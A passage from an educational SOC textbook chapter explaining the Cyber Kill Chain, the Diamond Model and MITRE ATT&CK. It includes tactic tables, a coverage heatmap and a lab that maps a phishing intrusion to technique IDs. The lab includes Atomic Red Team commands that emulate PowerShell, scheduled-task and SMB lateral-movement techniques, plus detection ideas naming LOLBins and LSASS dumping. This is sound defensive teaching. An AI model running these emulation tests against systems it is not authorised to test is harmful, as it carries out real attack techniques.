







This is Chapter 3 of the SOC & Blue Team notebook. Chapter 1 built the SOC as a system; Chapter 2 built the raw material — logs and telemetry. This chapter gives that material a **map**. On its own, a log is a dot: "winword.exe spawned powershell.exe." A framework tells you *where that dot sits in an attack* — that it is the "Execution" stage following a phishing "Initial Access," and that the next dots to look for are persistence, credential access, and lateral movement. Frameworks are how analysts stop seeing isolated alerts and start seeing campaigns.

Three frameworks dominate the discipline: the **Cyber Kill Chain** (a linear model of an intrusion's phases), the **Diamond Model** (a way to reason about the relationships in an intrusion), and — the one you will use every single day — **MITRE ATT&CK**, a vast, community-maintained knowledge base of real-world adversary behavior. By the end of this chapter you will be able to take an incident, map each observed action to an ATT&CK technique, see which techniques your detections cover and which they miss, and turn that gap analysis into a plan. That skill — thinking in techniques rather than indicators — is the line between a Tier 1 analyst and a detection engineer.

A framing note carried from earlier chapters: these frameworks are lawful, defender-first tools. Yes, red teams use ATT&CK to plan emulation, but the reason it matters to *you* is coverage — knowing what you can and cannot detect against systems you are authorized to defend. We will reference offensive techniques throughout, always in service of detecting them.

We build from the Kill Chain, through the Diamond Model, into ATT&CK's structure (tactics, techniques, sub-techniques, procedures, groups, software, mitigations, data sources), how analysts actually use it (mapping incidents, coverage heatmaps, the Navigator, detection engineering, threat intel, purple teaming), the Pyramid of Pain revisited, a full hands-on mapping lab, a consolidated detection-and-defense section, common mistakes, a final revision, a cheat sheet, and topic-specific practice.

## Why This Matters

When you tell a manager "we detected some PowerShell," you have said almost nothing. When you say "we detected **T1059.001 (PowerShell execution)** following **T1566.001 (spearphishing attachment)**, but we have **no coverage** for the **T1003.001 (LSASS credential dumping)** that likely came next," you have said something actionable: here is what happened, here is our blind spot, here is what to build. That translation — from raw events to a shared, precise vocabulary of adversary behavior — is what ATT&CK gives the whole industry. It is the reason a detection engineer in one company can read a threat report from another and immediately know what to hunt for.

For a triage analyst, frameworks answer the question that raw logs cannot: **"what comes next?"** If you have confirmed Initial Access and Execution, the Kill Chain and ATT&CK tell you to go looking for Persistence, Privilege Escalation, and Lateral Movement — you hunt forward along the attack, catching the intrusion before it reaches its objective. Without a framework you are reacting to whatever alert happens to fire; with one, you are anticipating the adversary.

**Who this is for:** SOC analysts learning to think in campaigns, detection engineers measuring and closing coverage gaps, and offensive practitioners who plan and report engagements in ATT&CK terms. It is the shared language of the field.

## Part 1: The Cyber Kill Chain

The **Lockheed Martin Cyber Kill Chain** (2011) was the first widely adopted model to describe an intrusion as a sequence of phases. Borrowed from a military "kill chain" (the stages of engaging a target), it frames an attack as seven linear steps. Its power is simple: **an attacker must complete every phase to succeed, so a defender who breaks any one phase disrupts the attack.**



The seven phases, with what happens and what a defender does:

| Phase | Attacker does | Defender detects/disrupts |
|-------|---------------|---------------------------|
| 1. Reconnaissance | Researches target (OSINT, scanning, harvesting emails) | Monitor for scanning; reduce public exposure |
| 2. Weaponization | Builds the payload (malicious doc, exploit + backdoor) | Hard to see (attacker-side); intel on tooling |
| 3. Delivery | Sends it (phishing email, malicious link, USB, web) | Email/proxy filtering, user awareness, sandboxing |
| 4. Exploitation | Triggers execution (macro runs, exploit fires) | EDR behavioral detection, patching, hardening |
| 5. Installation | Establishes persistence (backdoor, service, task) | EDR, persistence-event monitoring (4697/4698) |
| 6. Command & Control | Beacon to attacker infrastructure | DNS/proxy/firewall detection of C2 |
| 7. Actions on Objectives | Achieves the goal (exfil, ransomware, destruction) | DLP, segmentation, anomaly detection |

The **"break the chain"** idea is the model's whole point: you do not need to catch the attacker at every step, only *one*. Block delivery and the exploit never runs; catch C2 and the objective is never reached. This maps directly to defense-in-depth from Chapter 1 — each layer is a chance to break the chain.

**Strengths and limits.** The Kill Chain is excellent for communicating the *arc* of an intrusion and for organizing defenses by phase. But it has real weaknesses: it is **linear and perimeter-focused** (it emphasizes getting *in*, and treats everything after installation as one lump), which fits 2011's malware-delivery attacks better than modern intrusions that begin with a *valid login* (no exploit, no malware) or that spend most of their effort on post-compromise lateral movement. It also says nothing about *how* each phase is done. Those gaps are exactly what ATT&CK fills. A useful modern variant, the **Unified Kill Chain**, stitches together 18 phases across "in, through, and out" to address the linearity critique.

## Part 2: The Diamond Model

The **Diamond Model of Intrusion Analysis** (2013) is less a timeline and more a way to reason about the *relationships* in an intrusion. Every intrusion event has four connected features forming a diamond:



- **Adversary** — who is attacking (the actor/group).
- **Capability** — the tools and techniques they use (malware, exploits, TTPs).
- **Infrastructure** — what they use to deliver and control (C2 servers, domains, IPs).
- **Victim** — the target (organization, host, user, data).

The value is **pivoting**: given one vertex you can move to the others. Find a piece of infrastructure (a C2 IP) and you can pivot to the capability that used it, the victims it touched, and eventually the adversary. Analysts use the Diamond Model to structure intel: "this domain (infrastructure) delivered this loader (capability) against our finance users (victim), consistent with actor X (adversary)." It complements the Kill Chain (which orders events in time) and ATT&CK (which catalogs the capabilities) — together they answer *when*, *how*, and *who/what*.

## Part 3: MITRE ATT&CK — The Big One

**MITRE ATT&CK** (Adversarial Tactics, Techniques, and Common Knowledge) is a free, continuously updated knowledge base of adversary behavior observed in real-world intrusions. Where the Kill Chain has 7 broad phases, ATT&CK catalogs *hundreds* of specific techniques, each documented with description, detection guidance, mitigations, real-world examples, and the groups known to use it. It is, for defenders, the closest thing the field has to a periodic table of attacker behavior.

ATT&CK is organized into **matrices** for different domains: **Enterprise** (Windows, macOS, Linux, cloud, containers, network) — the one you will use most; **Mobile**; and **ICS** (industrial control systems). Within a matrix, the structure is a hierarchy:



### Tactics — the "why"

A **tactic** is the adversary's *goal* at a point in the attack — the reason they perform an action. Enterprise ATT&CK has 14 tactics, which read as a (non-linear) attack lifecycle. Memorize these; they are the backbone of everything:

| # | Tactic | Adversary goal | Example techniques |
|---|--------|----------------|--------------------|
| TA0043 | Reconnaissance | Gather info to plan | Active scanning, phishing for info |
| TA0042 | Resource Development | Build/acquire resources | Register domains, buy tooling |
| TA0001 | Initial Access | Get into the network | Phishing, exploit public app, valid accounts |
| TA0002 | Execution | Run malicious code | PowerShell, WMI, scheduled task |
| TA0003 | Persistence | Keep access across reboots | Run keys, services, tasks, accounts |
| TA0004 | Privilege Escalation | Gain higher permissions | Token abuse, exploit, bypass UAC |
| TA0005 | Defense Evasion | Avoid detection | Obfuscation, disable tools, clear logs |
| TA0006 | Credential Access | Steal credentials | LSASS dump, Kerberoasting, keylogging |
| TA0007 | Discovery | Learn the environment | Account/network/system discovery |
| TA0008 | Lateral Movement | Move to other systems | RDP, SMB/PsExec, pass-the-hash |
| TA0009 | Collection | Gather target data | Data from shares, screen/keystroke capture |
| TA0011 | Command & Control | Communicate with implants | Web protocols, DNS, encrypted channels |
| TA0010 | Exfiltration | Steal data out | Exfil over C2, over web service, physical |
| TA0040 | Impact | Disrupt/destroy | Ransomware, wiper, defacement, DoS |

A vital point analysts internalize: **ATT&CK tactics are not strictly sequential.** An intrusion loops — discover, move laterally, escalate, discover more, persist again. The Kill Chain's linear arrow is a simplification; ATT&CK's tactics are more like a toolbox the adversary reaches into repeatedly. This is why "what tactic is this action serving?" is a better triage question than "what step number are we on?"

### Techniques and sub-techniques — the "how"

A **technique** is *how* an adversary achieves a tactic. Under Credential Access (the goal), **T1003 OS Credential Dumping** is a technique (the how). Many techniques have **sub-techniques** — more specific variants: **T1003.001** is LSASS Memory, **T1003.002** is Security Account Manager (SAM), **T1003.003** is NTDS.dit (the AD database). The notation is `Txxxx` for a technique and `Txxxx.yyy` for a sub-technique.

Some canonical examples every analyst should recognize on sight:

| ID | Technique | Tactic | Recognize it as |
|----|-----------|--------|-----------------|
| T1566.001 | Spearphishing Attachment | Initial Access | Malicious Office/PDF via email |
| T1059.001 | PowerShell | Execution | Encoded/hidden PowerShell, download cradles |
| T1059.003 | Windows Command Shell | Execution | cmd.exe abuse, batch scripts |
| T1053.005 | Scheduled Task | Persistence/Exec | schtasks, at, cron persistence |
| T1543.003 | Windows Service | Persistence | New service for persistence/lateral tooling |
| T1547.001 | Registry Run Keys | Persistence | Run/RunOnce autostart |
| T1003.001 | LSASS Memory | Credential Access | Mimikatz, comsvcs.dll dumping |
| T1558.003 | Kerberoasting | Credential Access | Service-ticket requests for offline cracking |
| T1021.001 | Remote Desktop | Lateral Movement | RDP to other hosts |
| T1021.002 | SMB/Admin Shares | Lateral Movement | PsExec, ADMIN$ copies |
| T1550.002 | Pass the Hash | Lateral Movement | NTLM hash reuse |
| T1071.001 | Web Protocols | C2 | HTTP(S) beaconing |
| T1048 | Exfil Over Alt Protocol | Exfiltration | DNS/ICMP/other exfil |
| T1486 | Data Encrypted for Impact | Impact | Ransomware encryption |
| T1070.001 | Clear Windows Event Logs | Defense Evasion | Event ID 1102 |

### Procedures — the exact implementation

A **procedure** is the specific, real-world way a given actor or piece of malware performs a technique. "APT29 uses `rundll32.exe` to execute a malicious DLL for T1055 process injection" is a procedure. Procedures are the most specific level and the most valuable for building precise detections, because they describe exactly what you would see in the logs.

### Groups, Software, Mitigations, Data Sources

ATT&CK ties techniques to the real world through several object types:

- **Groups (Gxxxx)** — tracked adversary clusters (e.g., G0016 APT29, G0032 Lazarus). Each group's page lists the techniques and software it is known to use — invaluable for **threat-informed defense**: "we are targeted by actors who use X, Y, Z, so prioritize detecting those."
- **Software (Sxxxx)** — malware and tools (e.g., S0154 Cobalt Strike, S0002 Mimikatz), each mapped to the techniques it implements.
- **Mitigations (Mxxxx)** — defensive measures that prevent or reduce a technique (e.g., M1042 Disable or Remove Feature, M1032 Multi-factor Authentication).
- **Data Sources & Components** — what telemetry is needed to *detect* a technique (e.g., "Process: Process Creation," "Command: Command Execution"). This closes the loop back to Chapter 2: ATT&CK literally tells you which log source you need for each technique.

The interlocking of these objects is the magic: from a **group** you get its **techniques**; from a **technique** you get the **data sources** to detect it and the **mitigations** to prevent it; from your **logs** you get the techniques you can see. That web is what makes ATT&CK a planning tool, not just a catalog.

## Part 4: How Analysts Actually Use ATT&CK

Knowing the structure is theory; here is how ATT&CK is used in a real SOC, day to day.

### Use 1 — Mapping an incident

During and after an incident, analysts map each observed action to an ATT&CK technique. This produces a precise, shareable record: not "the attacker did some stuff," but an ordered list of techniques. It communicates instantly to any other defender, feeds the report, and reveals which tactics the adversary achieved. The Part 9 lab does this end to end.

### Use 2 — Measuring coverage (the heatmap)

The single most valuable strategic use: **map your detections onto the ATT&CK matrix to see what you can and cannot detect.** Color each technique green (good detection), yellow (partial), or red (none). The result — an "ATT&CK heatmap" — makes your blind spots visible at a glance and turns "improve the SOC" into a concrete, prioritized backlog. You build this in the **ATT&CK Navigator**, a free web tool for annotating the matrix.



### Use 3 — Threat-informed defense

Not all techniques are equally likely against *you*. Use ATT&CK groups + threat intel to identify the actors and techniques most relevant to your industry and geography, then prioritize detecting *those* first. A hospital and a bank face different adversaries; ATT&CK lets each focus its finite engineering on the techniques it will actually see. MITRE's **ATT&CK Navigator** can overlay multiple groups to show the techniques they have in common — a ready-made priority list.

### Use 4 — Detection engineering

When building a detection, ATT&CK tells you (a) which data source you need (from the technique's Data Sources), (b) what the procedure looks like in that data, and (c) how to test it. Detections are tagged with their technique ID so the heatmap stays current. This is the core loop of Chapters 4–6: pick a technique, find the data, write the rule, tag it, test it.

### Use 5 — Purple teaming and emulation

Red and blue use ATT&CK as shared ground: red emulates a specific technique (often with **Atomic Red Team**, one small test per technique, or a full **adversary-emulation plan** for a real group), blue checks whether their detections fired, and the gap is closed on the spot. **Caldera** (MITRE's automated emulation platform) and **Atomic Red Team** are the common tools. This is the fastest way to validate a heatmap: do not *assume* a technique is covered — emulate it and watch whether the alert fires.

### Use 6 — Communicating with intel and vendors

Threat reports, vendor detections, and CTI feeds are all tagged with ATT&CK IDs. When a report says "this campaign uses T1078 Valid Accounts and T1567.002 exfil to cloud storage," you can immediately check your heatmap for those IDs and know your exposure. ATT&CK is the industry's lingua franca.

## Part 5: The Pyramid of Pain, Revisited

Chapter 1 introduced David Bianco's **Pyramid of Pain**; ATT&CK gives it teeth. The pyramid ranks indicators by how much it hurts the adversary when you detect and block them:



- **Hash values (trivial)** — change one byte, new hash. Useless as durable detection.
- **IP addresses (easy)** — rotate infrastructure in minutes.
- **Domain names (simple)** — register a new one cheaply.
- **Network/host artifacts (annoying)** — user-agent strings, file paths, registry keys; take some effort to change.
- **Tools (challenging)** — re-tooling (swapping Mimikatz for another dumper) costs real effort.
- **TTPs (tough!)** — the *behavior* itself. To evade a technique-level detection, the adversary must change *how they operate*, which is expensive and slow.

The connection to ATT&CK is direct: **ATT&CK techniques live at the top of the pyramid.** A detection keyed to a technique (T1003.001 LSASS access) rather than an indicator (a specific Mimikatz hash) forces the adversary to abandon the *approach*, not just swap a file. This is why mature detection engineering aims for technique-level, behavioral detections — and why the heatmap is measured in techniques, not IOCs. The trade-off, as always, is that behavioral detections need more tuning to control false positives (legitimate admin tools also touch LSASS), which is the craft you build in the SIEM chapters.

## Part 6: Kill Chain vs ATT&CK — When to Use Which

They are complementary, not competing:

| Aspect | Cyber Kill Chain | MITRE ATT&CK |
|--------|------------------|--------------|
| Shape | Linear, 7 phases | Matrix, 14 tactics × hundreds of techniques |
| Granularity | High-level arc | Specific, procedure-level detail |
| Best for | Communicating the story, organizing layered defense | Mapping, coverage, detection engineering, intel |
| Weakness | Too linear, perimeter-centric, vague on "how" | Large, can feel overwhelming; not a timeline |
| Analyst use | "What phase are we in? Break the chain." | "Which technique is this? Do we detect it?" |

In practice you use both: the Kill Chain to frame an incident's arc for a briefing ("we broke the chain at C2 before objectives"), and ATT&CK to nail down exactly which techniques were used and whether you had coverage. Many teams map ATT&CK tactics loosely onto Kill Chain phases and get the benefits of both.

## Part 7: Reading an ATT&CK Technique Page

A skill worth practicing: reading a technique page fluently. Take **T1053.005 Scheduled Task**. Its page gives you, in order:

- **Description** — what the technique is and why adversaries use it (scheduled tasks for persistence and execution).
- **Sub-technique context** — it sits under T1053 Scheduled Task/Job, alongside cron (.003), systemd timers (.006), etc.
- **Procedure examples** — real groups/software and exactly how each used it ("Group X created a scheduled task named `\Microsoft\Windows\...` to run every hour").
- **Mitigations** — e.g., M1028 (operating-system configuration), audit and restrict who can create tasks.
- **Detection** — the data sources and specific signals: Windows Event ID **4698** (task created), Sysmon, and the `schtasks.exe` command line. **This is the analyst's gold:** it tells you exactly which log to collect (Chapter 2) and what to look for.

Reading pages this way turns ATT&CK from an intimidating wall into a practical playbook: every technique page is a mini detection-engineering brief — here is the behavior, here is who does it, here is how to stop it, here is how to see it.

## Part 8: A Worked Coverage Assessment

Let us make the heatmap concrete with a small, honest coverage assessment for a mid-size SOC. For a handful of high-priority techniques, we ask: do we have the data source, and do we have a detection?

| Technique | Data source needed | Have source? | Have detection? | Status |
|-----------|--------------------|--------------|-----------------|--------|
| T1566.001 Spearphishing Attachment | Email gateway, EDR | Yes | Yes | 🟢 Green |
| T1059.001 PowerShell | Script-block logs, EDR | Yes | Yes | 🟢 Green |
| T1003.001 LSASS Memory | Sysmon EID 10 / EDR | Partial (no Sysmon on servers) | Partial | 🟡 Yellow |
| T1558.003 Kerberoasting | AD 4769 | Yes | No | 🔴 Red |
| T1021.002 SMB/PsExec | Windows 4624/5140, EDR | Yes | Partial | 🟡 Yellow |
| T1070.001 Clear Event Logs | Windows 1102 | Yes | Yes | 🟢 Green |
| T1486 Ransomware | EDR file ops, canaries | Partial | No | 🔴 Red |

Read the story this tells: the SOC is strong on phishing, PowerShell, and log-clearing, but has **red gaps** on Kerberoasting (has the data — 4769 — but no detection written) and ransomware (missing both robust data and detection), and **yellow** on credential dumping and lateral movement. The prioritized backlog writes itself: (1) write a Kerberoasting detection — the data is already there, so it is cheap; (2) deploy Sysmon to servers to close the LSASS gap; (3) build ransomware canaries and file-operation detection. Notice how the assessment separates "do we even collect the data?" (Chapter 2) from "did we write the rule?" — two different fixes with very different costs. **Blue team usage:** this table, expanded across your priority techniques and rendered in the Navigator, is one of the most valuable artifacts a SOC can produce; it converts anxiety about "are we covered?" into a ranked, fundable plan.

## Part 9: Hands-On Lab — Map a Real Intrusion to ATT&CK

This lab takes the multi-source intrusion from Chapter 2's lab and maps it fully to ATT&CK, then assesses coverage and derives detections — the complete analyst workflow. Here is the reconstructed timeline (from Chapter 2), now annotated with technique IDs.

```
08:41  Phishing email w/ Policy.docm delivered to m.singh
       -> T1566.001  Spearphishing Attachment          [Initial Access]
08:47  m.singh opens the document (macro executes)
       -> T1204.002  Malicious File (user execution)    [Execution]
08:48  winword.exe spawns encoded, hidden PowerShell
       -> T1059.001  PowerShell                          [Execution]
       -> T1027      Obfuscated/Encoded (-enc)           [Defense Evasion]
08:48  PowerShell resolves cdn-updates[.]xyz, connects 45.146.13.7:443
       -> T1071.001  Web Protocols                       [Command & Control]
       -> T1105      Ingress Tool Transfer (download)     [Command & Control]
09:12  m.singh network-logon to FILE01 from the host
       -> T1021.002  SMB/Windows Admin Shares            [Lateral Movement]
09:12  Reads \\FILE01\Finance\payroll.xlsx
       -> T1039      Data from Network Shared Drive       [Collection]
```

### Step 1 — The tactic arc

Lay the techniques onto tactics to see the arc the adversary achieved:

```
Initial Access -> Execution -> Defense Evasion -> C2 -> Lateral Movement -> Collection
```

Two things jump out. First, the attacker reached **Collection** (sensitive data) — this is a real incident, not a nuisance. Second, we have *not yet seen* Persistence, Privilege Escalation, or Exfiltration — which tells the responder exactly what to hunt for next: did they install persistence? escalate? get the payroll data *out*? The framework turns the known into a to-do list of the unknown.

### Step 2 — Coverage check per technique

For each mapped technique, ask "did we detect it, or just reconstruct it after the fact?"

| Technique | Detected live? | If not, why |
|-----------|----------------|-------------|
| T1566.001 Spearphishing | Partial | Email delivered (spam_score 3.1 < block threshold) |
| T1204.002 User Execution | No | No detection on document macro execution |
| T1059.001 PowerShell | Yes | Encoded-PowerShell rule fired (our green cell) |
| T1071.001 Web C2 | No | Destination not yet on any blocklist |
| T1021.002 SMB Lateral | No | No lateral-movement detection (yellow cell) |
| T1039 Collection | No | No sensitive-share access alerting |

The honest result: only **one** of six techniques was caught live, and the catch came *after* Initial Access and Execution had already succeeded. This is normal and instructive — it shows why single-point detection is fragile and why coverage across the chain matters. Had the PowerShell rule not existed, the whole intrusion would have run silently to Collection.

### Step 3 — Derive detections from the gaps

Each red cell becomes a detection to build (these are the searches you will write for real in Chapters 4–6):

```
Gap: T1204.002 winword.exe -> child process (esp. powershell/cmd/wscript)
  Detection: alert on Office apps spawning script interpreters.

Gap: T1071.001 first-seen external domain contacted by powershell.exe
  Detection: newly-registered / rare-destination beaconing from script hosts.

Gap: T1021.002 SMB logon (4624 type 3) to a file server from a
  workstation that has never touched it before.
  Detection: anomalous lateral access, especially to sensitive shares.

Gap: T1039 access to \\FILE01\Finance\* by a non-Finance user.
  Detection: sensitive-share access by unexpected identity.
```

### Step 4 — Prioritize with the Pyramid of Pain

Notice these detections are **technique-level** (top of the pyramid): "Office spawns a script interpreter" catches every phishing loader regardless of the document, the domain, or the payload hash. Compare a low-pyramid response — blocklisting 45.146.13.7 — which the attacker defeats by moving to a new IP the next day. The lab's payoff: **map the incident, find the gaps, and convert each gap into a durable, behavioral detection.** Do that after every incident and your heatmap turns greener with each intrusion — the Chapter 1 feedback loop, powered by ATT&CK.

### Step 5 — Emulate to verify

Before declaring the new detections "done," verify them by emulation rather than assumption. Atomic Red Team has tests mapped to these exact techniques:

```powershell
# In an isolated lab VM only, with logging on and detections enabled
Invoke-AtomicTest T1059.001            # PowerShell execution variants
Invoke-AtomicTest T1053.005            # scheduled-task persistence
Invoke-AtomicTest T1021.002            # SMB/admin-share lateral movement
# then confirm each fired the intended alert; clean up afterwards
Invoke-AtomicTest T1059.001 -Cleanup
```

If a test runs and no alert fires, the heatmap cell is *red*, not green, no matter what you believed. Emulation is how a coverage claim becomes a coverage *fact*.

## Part 9b: The 14 Tactics in Detail — A Detection Field Guide

The tactics table in Part 3 is the map; this is the field guide. For each tactic, here is the adversary's goal, the techniques you will meet most, the data source that sees them, and the detection idea. Treat it as a starter kit for your own heatmap.

### Reconnaissance (TA0043)

The adversary gathers information to plan the attack — much of it off your network. Techniques: active scanning (T1595), gathering victim identity/email info (T1589), searching open sources (T1593). **Data:** perimeter firewall/IDS logs, web server logs, external attack-surface monitoring. **Detection idea:** spikes in scanning from a single source, enumeration of your login/OWA/VPN endpoints, and (via CTI) newly registered look-alike domains. Mostly *early warning* rather than actionable alerting.

### Resource Development (TA0042)

The adversary acquires infrastructure and tooling — registering domains (T1583), compromising accounts (T1586), developing malware (T1587). **Data:** almost entirely external threat intel; you rarely see this on your own logs. **Detection idea:** consume CTI feeds for look-alike domains and known actor infrastructure; feed them to enrichment.

### Initial Access (TA0001)

Getting the first foothold. Techniques: phishing (T1566), exploit public-facing app (T1190), valid accounts (T1078), external remote services (T1133), supply chain (T1195). **Data:** email gateway, web/WAF logs, VPN and identity sign-ins, EDR. **Detection idea:** malicious attachments and rewritten-URL clicks, exploitation signatures on public apps, and — crucially for the cloud era — **valid-account** anomalies (impossible travel, new device, new-country sign-in), because modern intrusions increasingly *log in* rather than *break in*.

### Execution (TA0002)

Running attacker code. Techniques: command/scripting interpreter (T1059 — PowerShell .001, cmd .003, WScript/JScript .005/.007, Python .006), user execution (T1204), WMI (T1047), scheduled task (T1053). **Data:** process-creation logs (Windows 4688 with command line, Sysmon EID 1), script-block logs, EDR. **Detection idea:** the highest-value early catch — Office apps spawning interpreters, encoded/hidden PowerShell, LOLBins (`certutil`, `mshta`, `rundll32`, `regsvr32`) invoked with network arguments. Execution is where behavioral detection earns its keep.

### Persistence (TA0003)

Keeping access across reboots and credential changes. Techniques: registry run keys (T1547.001), scheduled task (T1053.005), Windows service (T1543.003), account creation (T1136), WMI event subscription (T1546.003), BITS jobs (T1197). **Data:** Windows 4697 (service), 4698 (task), 4720 (account), 7045 (service, System log), Sysmon registry events (12–14), EDR. **Detection idea:** new services/tasks/run-keys, especially with suspicious paths or names, and new local/domain accounts. Persistence events are relatively rare and high-signal — great detections.

### Privilege Escalation (TA0004)

